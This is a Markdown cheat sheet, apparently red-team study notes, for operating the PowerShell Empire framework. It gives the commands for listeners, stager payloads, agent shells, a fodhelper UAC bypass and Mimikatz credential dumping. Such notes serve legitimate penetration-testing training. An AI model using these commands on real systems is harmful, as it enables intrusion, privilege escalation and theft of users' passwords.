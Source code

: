 # Empire

* [https://github.com/BC-SECURITY/Empire](https://github.com/BC-SECURITY/Empire)
* [https://zayotic.com/posts/empire-cheatsheet/](https://zayotic.com/posts/empire-cheatsheet/)

## Cheat Sheet

```bash
# install it
sudo apt install powershell-empire

# to run it, you need both the server and client
sudo powershell-empire server
sudo powershell-empire client

# list and use listeners
# you need a listener to catch a shell
# do not forget to set Host, and other custom settings
listeners # this moves the menu to the listeners sub-category
uselistener "listenername" # sets the menu into an even further sub-category
info
set Host 192.168.1.5
execute # runs listener
back # goes to listeners category so you can run a stager (aka payload)

# use a stager once a listener is set
# list and use the stager
usestager # lists stager
usestager path_to/stager
info # shows info about stager
set Listener "listenername" # set as the name of listener that is setup
execute # generates the payload aka agent that stager leaves behind

# to view what shells you have open
agents
interact "agentname"

# use modules for more leverage
# best modules
# Powersploit
usemodule situational_awareness/network/powerview/get_user
# Powerup
usemodule powershell/privesc/powerup/allchecks
# fodhelper, if local admin launch high-integrity shell and run Mimikatz
usemodule privesc/bypassuac_fodhelper
# Mimikatz, then run sekurlsa::logonpasswords  
usemodule credentials/mimikatz/logonpasswords 
usemodule lateral_movement/ # lateral movement methods
# other modules
usemodule # shows a module list
usemodule "path_to/module"
# show module info and execute a module
info
execute

# when in doubt
help # useful command
```

## fodhelper

* if you have local admin access, this module may be able to launch a high-integrity PowerShell Empire agent through bypassing the UAC (which you need to run Mimikatz, etc...)

```
# load the Empire module
usemodule privesc/bypassuac_fodhelper

# display info
info

# setup a listener
set Listener http

# run the module
execute

# if this works, then you now have a high-integrity Powershell Empire agent which
# is needed in order to run Mimikatz and other high-integrity modules
usemodule credentials/mimikatz/logonpasswords
execute
sekurlsa::logonpasswords

# view the creds that were just dumped
creds

# add your own creds to creds
creds add example.com exampleusername ex4mpl3p4ssw0rd
```
